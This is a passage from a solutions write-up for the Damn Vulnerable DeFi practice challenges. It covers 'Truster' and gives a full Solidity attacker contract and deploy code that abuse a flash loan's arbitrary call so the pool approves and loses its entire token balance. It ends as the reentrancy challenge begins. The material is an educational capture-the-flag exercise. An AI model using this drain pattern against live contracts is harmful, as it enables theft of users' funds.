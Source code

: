 ## Challenge #3 - Truster

Callback functions are the heart of flash loans. But they can also be a huge vulnerability. Calling external code is always dangerous, especially if the code is **untrusted**. Luckily in our case [`flashLoan`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/3e2a3675f4a733557ee9417b97fee104c0110618/contracts/truster/TrusterLenderPool.sol#L23-L40) accepts a `target` address, usually a contract, and `call data` that allows us to execute any function on the target address.

### Solution

Again we need to create a contract to execute this action in one transaction:

```sol:contracts/attacker-contracts/truster/TrusterAttacker.sol
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "../../truster/TrusterLenderPool.sol";

contract TrusterAttacker {
    IERC20 private immutable damnValuableToken;
    TrusterLenderPool private immutable pool;

    constructor(IERC20 tokenAddress, TrusterLenderPool poolAddress) {
        damnValuableToken = tokenAddress;
        pool = poolAddress;
    }
    function attack(address attacker) external {
        // make the pool approve its balance to this contract's address
        uint256 amount = damnValuableToken.balanceOf(address(pool));
        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), amount);
        pool.flashLoan(0, address(this), address(damnValuableToken), data);

        // transfer the tokens to our EOA
        damnValuableToken.transferFrom(address(pool), attacker, amount);
    }
}
```

Deploy and execute `attack`:

```js:test/truster/truster.challenge.js
    /** CODE YOUR EXPLOIT HERE  */
    const TrusterAttackerFactory = await ethers.getContractFactory('TrusterAttacker', attacker);
    const trusterAttacker = await TrusterAttackerFactory.deploy(this.token.address, this.pool.address);
    await trusterAttacker.attack(attacker.address);
```

## Challenge #4 - Side entrance

If you have ever googled "list of smart contract vulnerabilities", there is a high chance that you have already encountered reentrancy attacks. If you are not familiar with reentrancy attacks yet, I highly recommend you read this [article on hackernoon](https://hackernoon.com/hack-solidity-reentrancy-attack) from [@kamilpolak](https://hackernoon.com/u/kamilpolak).
